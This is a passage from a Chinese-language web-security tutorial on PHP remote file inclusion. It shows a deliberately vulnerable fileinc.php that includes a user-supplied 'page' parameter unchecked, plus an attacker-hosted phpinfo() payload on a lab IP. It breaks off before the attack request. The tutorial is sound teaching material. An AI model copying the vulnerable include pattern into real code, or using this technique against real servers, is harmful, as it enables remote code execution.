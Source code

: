  ![image-20240123115704611](../img/image-20240123115704611.png)

### 远程文件包含（RFI）

​	远程文件包含（Remote File Include）发生在应用程序包含远程服务器上的文件时，通常需要`allow_url_fopen`配置项被设置为`on`，使得PHP可以通过URL打开文件。这是一个非常危险的行为，开启这个配置项就意味着所有一旦服务器没有对用户的输入进行严格的过滤，则意味着用户可以在服务端执行任意的PHP代码。

​	假设服务器`192.168.206.131`开启了`allow_url_fopen`配置项，且上有一个文件`fileinc_php`代码如下：

```php
// fileinc.php
<?php
    if (isset($_GET['page'])){
        $page = $_GET['page'];
    } else {
        echo "Please input page parameter";
    }
    include_once($page);
```

​	攻击者发现这里存在远程包含漏洞，于是在攻击服务器`192.168.206.132`上构造如下攻击代码：

```php
<?php
    echo phpinfo();
```

​	在访问131服务器的时候将`page`参数设置为攻击代码的路径：

